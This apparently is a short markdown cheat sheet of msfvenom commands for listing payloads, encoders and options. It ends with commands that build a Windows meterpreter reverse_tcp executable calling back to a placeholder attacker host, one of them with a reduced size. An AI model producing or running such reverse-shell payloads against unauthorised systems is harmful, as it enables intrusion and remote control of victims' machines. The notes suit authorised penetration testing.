 # Payloads

To list the payloads options, for example:

```
$ msfvenom -p cmd/unix/reverse_netcat --list-options
```

To list available payloads with a specific platform.

```
$ msfvenom -l payloads --platform <platform>
```

To list available scripting payloads with a specific platform (e.g `unix`).

```
$ msfvenom -l payloads --platform unix | grep "cmd/unix" | awk '{print $1}'
..[omitted]..
```

To list available encoders with a specific platform.

```
$ msfvenom -l encoders --platform <platform>
```

To list available payloads with a specific architecture.

```
$ msfvenom -l payloads -a <architecture>
```

To list available encoders with a specific platform.

```
$ msfvenom -l encoders -a <architecture>
```

Limit the size of the payload.

> [!WARNING]
> Be careful when reducing the payload's size. If it's too low then it'll cause errors in the shellcode.

```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f exe -s 290
```

Generate the smallest size of the payload as possible.

```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f exe --smallest
```